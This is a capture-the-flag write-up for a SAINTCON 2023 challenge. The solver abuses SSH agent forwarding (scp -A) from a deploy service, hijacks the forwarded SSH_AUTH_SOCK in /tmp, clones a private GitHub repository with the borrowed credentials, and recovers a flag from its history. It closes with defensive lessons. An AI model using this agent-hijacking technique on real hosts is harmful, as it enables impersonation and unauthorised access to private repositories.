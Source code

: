 # Super Cool Secret Project

I built this service to automatically deploy my application to all the servers that want to run it.

All you have to do is provide a SSH username, and host, and I will connect and give you a copy of the app. Please accept my public key.

http://deployserver.youcanhack.me/

![deployserver.youcanhack.me](./deployserver.jpg)

## Solution

We're given access to deployserver which will deploy an application to a server under our control. A public SSH key is provided that we need to add to a user's .ssh/authorized_keys file on our server. This will allow the deployserver to authenticate with our server over ssh. After the public key is added - we provide the username, hostname, port number and then submit the form. After doing so, we see the message '--- SSH Attempted ---'. Let's go take a look at the user's home directory and see if it deployed anything.

```
➜ ls -1
HC2023-SuperCoolSecretProject
```

We see that it did in fact deploy an app called 'HC2023-SuperCoolSecretProject' to our user's home directory. When we change into the directory and list the contents, we see that it's a git repository with a README:

```
➜ cd HC2023-SuperCoolSecretProject && ls -lah
total 20K
drwxr-xr-x. 3 hc hc 4.0K Nov  1 02:10 .
drwx------. 7 hc hc 4.0K Nov  1 02:48 ..
drwxrwxr-x. 8 hc hc 4.0K Nov  1 02:47 .git
-rw-r--r--. 1 hc hc   24 Nov  1 02:10 .gitignore
-rw-r--r--. 1 hc hc   25 Nov  1 02:10 README.md
```

Not much in the README:
```
➜  cat README.md
# SuperCoolSecretProject
```

A quick grep reveals a .flag file is being ignored via the gitignore.
```
➜  HC2023-SuperCoolSecretProject git:(main) grep -R 'flag' .
./.gitignore:.flag
```

Hm, well let's take a look at the git log and see what history exists in version control. It's possible the file was committed to the repo at one point and then was later removed. If that's the case there's a chance it wasn't removed properly from the repo and we may be able to recover it.

```
➜  git log
78aba76 - (grafted, HEAD, origin/main, origin/HEAD, main) oops! remove secret (Sat Oct 21 21:11:41 2023 -0600) <zevlag>
```

It looks like zevlag removed a secret from the repo. Perhaps our flag? Let's take a look at the git diff for that commit and see what changed. If we're lucky, he didn't remove it from the repo the proper way and we may be able to see it.

```diff
➜  git show 78aba76
diff --git a/.gitignore b/.gitignore
new file mode 100644
index 0000000..5b11eb4
--- /dev/null
+++ b/.gitignore
@@ -0,0 +1,3 @@
+.flag
+id_rsa
+id_rsa.pub
diff --git a/README.md b/README.md
new file mode 100644
index 0000000..2308fa5
--- /dev/null
+++ b/README.md
@@ -0,0 +1 @@
+# SuperCoolSecretProject
```

Dang, no flag and there are no other commits. It seems it was removed the proper way. That's good. So.. there must be something else. Let's think about this. Git repositories generally have a 'remote' that specifies where it's hosted and can be fetched and pushed. Perhaps the secret still exists in the remote repository? Let's check and see what this repository's remotes are set to:

```bash
➜  git remote -v
origin	git@github.com:SAINTCON-HC2023/SuperCoolSecretProject.git (fetch)
origin	git@github.com:SAINTCON-HC2023/SuperCoolSecretProject.git (push)
```

Great, that's something. It's hosted on github and has an ssh origin url. That means the repository can be pulled and pushed to over ssh with public key authentication. We know the deployserver used ssh to securely copy the repository onto our server. Let's re-evaluate the commands that were used to do that:

```
git clone --depth 1 {censored URL}
scp -P {port} -rCA ~/SuperCoolSecretProject {user}@{host}:~/HC2023-SuperCoolSecretProject
```

Interesting.. The repository was cloned down with the same user that then securely copied the repository onto our server. In order to clone the repository, the user must have authenticated over ssh since the remote origin urls are ssh urls. Let's take a look at the options that were passed to the `scp` command (`-rCA`) to fully understand what it's doing. The `r` option means copy recursively and the `C` option enables compression which reduces the total bandwidth needed for the transfer. The `A` option doesn't appear to be a valid / documented scp option. However, if you use ssh often, you may know that `-A` is a valid option for `ssh`:

```
-A      Enables forwarding of connections from an authentication agent such as ssh-agent(1).  This can also be specified on a per-host basis in a configuration file.

        Agent forwarding should be enabled with caution.  Users with the ability to bypass file permissions on the remote host (for the agent's UNIX-domain socket) can access the local agent through the forwarded connection.  An attacker cannot obtain key
        material from the agent, however they can perform operations on the keys that enable them to authenticate using the identities loaded into the agent.  A safer alternative may be to use a jump host (see -J).
```

If someone is able to access the forwarded SSH_AUTH_SOCK, they could export it and use it as their own. We may be able to do exactly that. Just from experience, we know SSH_AUTH_SOCK is exported to /tmp by default with the pattern 'ssh-XXXXXXXXXX/agent.%d'. Let's take a look in /tmp on the server and see if the deployserver forwarded it's SSH_AUTH_SOCK:

```
➜  ls -lah /tmp/ssh-ARAGypNoQ0/agent.1303
srwxr-xr-x. 1 hc hc 0 Nov  2 03:12 /tmp/ssh-ARAGypNoQ0/agent.1303
```

Yep! It is. From here.. All we need to do is export SSH_AUTH_SOCK to that path in our environment.

```
➜  export SSH_AUTH_SOCK=/tmp/ssh-ARAGypNoQ0/agent.1303
```

Now let's see if we can use it to authenticate with the remote repository by cloning the repo:

```
➜  git clone git@github.com:SAINTCON-HC2023/SuperCoolSecretProject.git SuperCoolSecretProject
Cloning into 'SuperCoolSecretProject'...
remote: Enumerating objects: 12, done.
remote: Counting objects: 100% (12/12), done.
remote: Compressing objects: 100% (7/7), done.
remote: Total 12 (delta 1), reused 11 (delta 0), pack-reused 0
Receiving objects: 100% (12/12), done.
Resolving deltas: 100% (1/1), done.
```

Perfect, we were able to. Let's check git history and see if we have more commits than the copy that was uploaded by deployserver

```
➜  git log
e2e18b0 - (HEAD, origin/main, origin/HEAD, main) Whoops (Wed Oct 25 15:42:15 2023 +0000) <zevlag>
78aba76 - oops! remove secret (Sat Oct 21 21:11:41 2023 -0600) <zevlag>
fb3e3f5 - add .gitignore (Sat Oct 21 10:32:38 2023 -0600) <zevlag>
d01e7c3 - first commit (Sat Oct 21 10:01:31 2023 -0600) <zevlag>
```

And.. we do! Great, let's inspect each of the commits not in the copied version, and see if we can find the flag.
```diff
➜  git show fb3e3f5
fb3e3f5 - add .gitignore (Sat Oct 21 10:32:38 2023 -0600) <zevlag>

diff --git a/.flag b/.flag
new file mode 100644
index 0000000..a86fbaf
--- /dev/null
+++ b/.flag
@@ -0,0 +1 @@
+flag{YouShouldCheckItOut-whoami.filippo.io}
diff --git a/.gitignore b/.gitignore
new file mode 100644
index 0000000..5b11eb4
--- /dev/null
+++ b/.gitignore
@@ -0,0 +1,3 @@
+.flag
+id_rsa
+id_rsa.pub
```

And there we have it! It wasn't removed from the remote repository like it should have been, so we were able to recover it. A couple lessons learned from this are:

1. Remove secrets from the remote repository and not just a local copy.
2. Don't forward your ssh-agent to just any host because an attacker will likely find and use it.

Read [here](https://web.archive.org/web/20230916111651/https://smallstep.com/blog/ssh-agent-explained/) for a more detailed write-up about ssh-agent forwarding, the risks involed and how to mitigate the risk.